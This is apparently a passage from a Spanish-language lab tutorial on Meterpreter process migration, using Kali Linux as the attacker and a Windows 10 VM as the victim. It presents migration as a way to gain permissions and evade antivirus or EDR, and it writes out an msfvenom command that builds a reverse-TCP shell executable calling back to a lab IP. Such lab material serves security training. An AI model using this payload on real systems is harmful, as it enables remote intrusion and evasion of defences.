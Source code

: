 🔁 La **migración de procesos** permite mover esa sesión a otro proceso que:

- Tenga más **permisos** (por ejemplo: `explorer.exe` o `winlogon.exe`).
- Sea más **estable** (no cierre inesperadamente).
- Sea más **silencioso** (para evadir antivirus o EDR).

---

### 💻 Laboratorio práctico (usando máquinas virtuales)

#### 🖥️ Requisitos:

| Máquina    | Sistema Operativo | Rol                       |
| ---------- | ----------------- | ------------------------- |
| Kali Linux | Kali              | Atacante (con Metasploit) |
| Windows 10 | Windows           | Víctima                   |

---

### 🔧 Paso a paso: Instalación y preparación

#### 1️⃣ En Kali Linux (Atacante)

Asegúrate de tener Metasploit:

```bash
sudo apt update
sudo apt install metasploit-framework
```

Verifica:

```bash
msfconsole
```

---

#### 2️⃣ En la máquina víctima Windows

Puedes usar un ejecutable generado con `msfvenom`.

### Generar payload:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.100.5 LPORT=4444 -f exe -o shell_win.exe
```

> ⚠️ Cambia `LHOST` por la IP de tu Kali.

Transfiere `shell_win.exe` a la VM Windows (por carpeta compartida o servidor HTTP).

---

### 🎯 Objetivo: Migrar el proceso una vez obtenida la sesión

---